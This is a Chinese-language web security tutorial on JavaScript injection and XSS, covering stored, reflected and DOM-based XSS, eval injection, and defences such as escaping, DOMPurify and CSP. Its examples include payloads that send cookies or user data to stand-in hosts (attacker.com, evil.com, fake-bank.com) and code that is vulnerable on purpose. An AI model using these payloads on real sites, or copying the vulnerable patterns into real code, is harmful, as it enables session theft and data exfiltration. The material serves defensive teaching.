

# JavaScript 注入攻击

## 什么是JavaScript注入攻击？

JavaScript注入攻击是一种安全漏洞，攻击者通过在网页上注入并执行恶意JavaScript代码来达到非法目的。这种攻击通常发生在网站没有正确验证或过滤用户输入时，使得攻击者能够将自己的脚本代码嵌入到网页中，并在其他用户访问该页面时执行这些恶意代码。

:::warning
JavaScript注入攻击是当今Web应用中最常见且危害最大的安全威胁之一！
:::

## 注入攻击的基本原理

JavaScript注入攻击的核心原理非常简单：利用Web应用程序对用户输入的信任。当应用程序接收来自用户的输入并将其直接输出到页面上，而没有进行适当的验证或转义时，就会产生漏洞。



## 常见的JavaScript注入攻击类型

### 1. 跨站脚本攻击(XSS)

XSS是最常见的JavaScript注入攻击形式，主要分为三种类型：

#### 存储型XSS

攻击者将恶意代码提交到目标网站的数据库中，当其他用户浏览包含此恶意代码的页面时，脚本会被执行。

```javascript
// 假设有一个博客评论系统，用户可以提交评论
// 攻击者提交的评论内容：
const maliciousComment = `很好的文章！<script>
  const cookies = document.cookie;
  fetch('https://attacker.com/steal?cookie=' + encodeURIComponent(cookies));
</script>`;

// 如果网站没有对输入进行过滤，这段代码会被存储在数据库中
// 当其他用户查看评论时，脚本会执行并窃取cookie
```

#### 反射型XSS

攻击者将恶意代码嵌入到URL参数中，当服务器获取此参数并在响应中直接包含时，恶意代码会被执行。

```javascript
// URL: https://example.com/search?q=<script>alert('XSS攻击!');</script>

// 服务器端代码(不安全的实现):
function handleSearchRequest(req, res) {
  const query = req.query.q;
  // 危险: 直接将用户输入嵌入HTML
  res.send(`<h1>搜索结果: ${query}</h1>`); 
}
```

#### DOM型XSS

恶意代码不经过服务器，而是由前端JavaScript直接处理并执行。

```javascript
// URL: https://example.com/page?default=<script>alert('DOM XSS!');</script>

// 前端JavaScript代码(不安全):
document.getElementById("greeting").innerHTML = 
  "欢迎来到" + location.href.split("default=")[1];
```

### 2. 代码注入

攻击者将恶意JavaScript代码注入到动态执行代码的环境中。

```javascript
// 不安全的eval()使用:
function calculateExpression(expr) {
  // 危险: 直接执行用户提供的表达式
  return eval(expr);
}

// 攻击者可能会提供:
const maliciousExpr = "1+1; fetch('/api/user_data').then(r=>r.json()).then(data=>fetch('https://evil.com/steal?data='+JSON.stringify(data)))";
```

## 真实案例分析

### 案例1: 社交媒体信息泄露

2018年，一个流行社交媒体平台发现其个人资料页面存在XSS漏洞。攻击者通过在个人简介中插入恶意JavaScript代码，能够在任何访问其个人资料的用户浏览器上执行代码，从而窃取cookie和会话信息。

**漏洞代码：**

```javascript
// 个人简介字段(未经过滤):
const profileBio = `Web开发者 `;

// 页面渲染代码:
userProfileElement.innerHTML = profileBio; // 直接插入未过滤的内容
```

**修复方法：**

```javascript
// 使用DOMPurify等库过滤用户输入
const cleanBio = DOMPurify.sanitize(profileBio);
userProfileElement.innerHTML = cleanBio;

// 或者使用textContent避免HTML解析
userProfileElement.textContent = profileBio;
```

### 案例2: 银行网站的URL参数漏洞

某银行网站的登录成功页面会显示来源页面的URL，但未对参数进行适当处理：

```javascript
// URL: https://bank.example/welcome?from=<script>document.location='https://fake-bank.com/?stolen='+document.cookie</script>

// 服务器端模板:
app.get('/welcome', (req, res) => {
  const referrer = req.query.from;
  res.send(`
    <html>
      <body>
        <h1>欢迎回来!</h1>
        <p>您来自: ${referrer}</p> <!-- 未经过滤的输出 -->
      </body>
    </html>
  `);
});
```

当用户点击包含此恶意参数的链接时，会被重定向到钓鱼网站，并且会带上用户的cookie信息。

## 防御JavaScript注入攻击的方法

### 1. 输入验证与过滤

始终对用户输入进行严格验证和过滤，确保它符合预期的格式和内容。

```javascript
// 使用正则表达式验证输入是否只包含安全字符
function validateInput(input) {
  const safePattern = /^[a-zA-Z0-9\s.,!?]*$/;
  return safePattern.test(input);
}

const userInput = getUserInput();
if (!validateInput(userInput)) {
  // 拒绝处理不安全的输入
  showError("输入包含不允许的字符");
  return;
}
```

### 2. 输出编码

在输出用户数据前，务必进行适当的编码，将特殊字符转换为对应的HTML实体。

```javascript
// 自定义HTML编码函数
function escapeHtml(unsafeText) {
  return unsafeText
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
}

// 使用方法
const userComment = getUserComment();
commentElement.innerHTML = escapeHtml(userComment);
```

### 3. 使用内容安全策略(CSP)

Content Security Policy是一个HTTP头，可以告诉浏览器哪些资源可以被加载和执行。

```html
<!-- 在HTML中设置 -->
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'">

<!-- 或在服务器响应头中设置 -->
Content-Security-Policy: default-src 'self'; script-src 'self'
```

### 4. 避免使用危险函数

尽量避免使用执行动态代码的函数，如`eval()`、`setTimeout()`/`setInterval()`（带字符串参数）、`Function()`构造函数等。

```javascript
// 危险方式:
eval(userProvidedCode); // 避免!

// 替代方式:
// 对于JSON解析，使用JSON.parse()而不是eval
const data = JSON.parse(jsonString);

// 对于setTimeout，使用函数引用而非字符串
setTimeout(myFunction, 1000); // 而不是 setTimeout("myFunction()", 1000);
```

### 5. 使用现代框架和库

现代JavaScript框架如React、Vue、Angular等内置了防XSS机制，它们会自动转义内容。

```jsx
// React自动转义文本内容
function Comment({ text }) {
  return <div>{text}</div>; // 文本会被自动转义
}

// 如果需要渲染HTML (谨慎使用)
function RawHTML({ content }) {
  return <div dangerouslySetInnerHTML={{ __html: content }} />;
}
```

:::caution
即使使用现代框架，对于需要渲染HTML的情况，也应先使用如DOMPurify等库进行过滤!
:::

## 防御实践

下面是一个安全处理用户输入并展示的完整示例：

```javascript
// 前端验证
function validateUserInput(input) {
  // 基本输入验证
  if (!input || input.length > 1000) {
    return { valid: false, message: "输入不能为空或过长" };
  }
  
  // 检查是否包含可疑的脚本标签或事件
  const suspiciousPatterns = /<script|javascript:|onerror=|onload=/i;
  if (suspiciousPatterns.test(input)) {
    return { valid: false, message: "输入包含不允许的内容" };
  }
  
  return { valid: true };
}

// 前端安全提交
document.getElementById("commentForm").addEventListener("submit", function(e) {
  e.preventDefault();
  
  const commentInput = document.getElementById("commentInput").value;
  const validation = validateUserInput(commentInput);
  
  if (!validation.valid) {
    document.getElementById("errorMessage").textContent = validation.message;
    return;
  }
  
  // 安全提交到服务器
  submitComment(commentInput);
});

// 后端处理 (Node.js Express示例)
app.post('/api/comments', (req, res) => {
  const comment = req.body.comment;
  
  // 服务器端再次验证
  if (!comment || typeof comment !== 'string' || comment.length > 1000) {
    return res.status(400).json({ error: "无效输入" });
  }
  
  // 过滤和存储安全版本的评论
  const sanitizedComment = DOMPurify.sanitize(comment);
  
  // 存储到数据库
  saveCommentToDatabase(sanitizedComment)
    .then(() => res.json({ success: true }))
    .catch(err => res.status(500).json({ error: "保存失败" }));
});

// 显示评论 (前端)
function displayComment(comment) {
  const commentEl = document.createElement("div");
  commentEl.className = "comment";
  
  // 安全方式: 使用textContent
  commentEl.textContent = comment;
  
  // 或者如果允许部分HTML (需谨慎):
  // commentEl.innerHTML = DOMPurify.sanitize(comment);
  
  document.getElementById("commentsList").appendChild(commentEl);
}
```

## 总结

JavaScript注入攻击是一个严重的安全威胁，但通过正确的预防措施可以有效防御：

1. **永远不信任用户输入** - 所有输入都应被视为潜在恶意的
2. **验证和过滤输入** - 确保输入符合预期格式
3. **编码输出** - 在显示用户提供的内容前进行适当编码
4. **实施内容安全策略** - 限制页面可以加载和执行的资源
5. **避免危险函数** - 特别是那些动态执行代码的函数
6. **使用现代框架** - 利用其内置的安全机制
7. **定期安全审核** - 检查代码中的潜在漏洞

:::tip
安全不是一次性工作，而是一个持续的过程。随着新威胁的出现，我们需要不断更新和改进我们的安全措施。
:::

## 练习与进一步学习

### 练习:

1. 创建一个简单的评论表单，并实现完整的输入验证和过滤。
2. 尝试识别现有网站中可能存在的XSS漏洞（仅用于学习，不要攻击实际网站）。
3. 为一个现有项目实现内容安全策略，并测试其有效性。

### 进一步学习资源:

1. [OWASP XSS防御备忘单](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
2. [内容安全策略(CSP)介绍](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
3. [DOMPurify库文档](https://github.com/cure53/DOMPurify)
4. [Web安全测试指南](https://owasp.org/www-project-web-security-testing-guide/)

通过理解JavaScript注入攻击的原理并掌握防御技术，你将能够开发更安全的Web应用程序，保护用户数据和隐私。